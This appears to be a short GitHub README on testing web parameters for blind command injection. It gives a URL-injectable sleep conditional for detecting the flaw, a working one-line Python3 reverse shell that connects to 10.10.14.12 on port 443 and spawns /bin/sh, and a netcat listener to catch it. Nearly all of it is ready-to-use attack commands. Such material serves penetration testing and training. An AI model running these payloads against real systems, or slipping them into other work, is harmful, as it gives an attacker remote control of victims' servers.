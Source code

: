 # Blind-CMD-iunjection-Test
Testing for blind command injection  

If you suspect a web parameter is vulnerable to command injection but the response is not reflecting any commands injected, test with sleep condition.  

### Bash oneliner if condition test command is going to wait for 10 seconds sleep if file does exist on the target.
```bash
;if [ -f /usr/bin/python3 ]; then sleep 10; else sleep 0; fi
```
* Note: URL encode the injected command before sending to target.  

If the above command results in a response taking 10+ seconds to return, good case for blind command injection on linux target.

### Below is oneline python3 reverse shell
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Before sending above Python3 reverse shell command injection, have netcat ready and listening on port 443.
```bash
rlwrap nc -nvlp 443
```
